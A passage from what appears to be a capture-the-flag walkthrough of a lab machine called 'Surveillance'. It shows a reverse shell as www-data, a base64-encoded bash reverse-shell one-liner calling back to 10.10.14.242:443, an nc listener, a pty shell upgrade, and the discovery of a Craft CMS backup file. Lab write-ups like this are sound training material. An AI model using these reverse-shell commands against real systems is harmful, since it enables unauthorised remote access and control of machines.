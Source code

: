 After a few seconds we'd obtain a reverse shell as www-data

![Successfull exploit](/assets/img/Surveillance/Surveillance_02.png)

The command execution seemed a little unstable so for some stability i decided to run a bash reverse shell command from this command prompt. First i base64 encoded my payload to have issues with syntax

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.242/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE=
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMjQyLzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash
```

Before executing this don't forget to turn on your listener

```
nc -lvp 443
```

![Reverse bash shell](/assets/img/Surveillance/Surveillance_03.png)


### Lateral movement

So now we have access to machine as **www-data** but not as a full user yet. My first step is to upgrade my shell to be a bit cleaner to use by executing the following python command

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Looking around the file structure I found an interesting file contained in the **/var/www/html/craft/storage/backups** directory named **surveillance--2023-10-17-202801--v4.4.14.sql.zip**
